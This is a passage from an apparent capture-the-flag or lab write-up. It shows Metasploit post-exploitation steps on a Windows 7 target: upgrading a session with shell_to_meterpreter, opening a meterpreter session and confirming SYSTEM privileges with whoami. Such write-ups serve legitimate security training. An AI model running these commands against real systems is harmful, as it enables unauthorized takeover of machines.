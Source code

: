 ```
use post/multi/manage/shell_to_meterpreter
```

With the 

```
show options
```

command I find that we have to set the sessions parameter. For this I use the

```
sessions
```

command to show the active sessions. Then I use

```
set SESSION 1
```

to use the first and only active session. With 

```
exploit
```

I start the post module and get a meterpreter shell session. I open the new session with 

```
sessions 1
```

and get the meterpreter shell. I then check as which user we are logged in. I can do this in the windows shell. With the command

```
shell
```

I start the windows shell inside the meterpreter shell and execute the command

```
whoami
```

The output tells me that we are logged in as nt authority/system

```
meterpreter > shell
Process 2808 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Task 4: Cracking
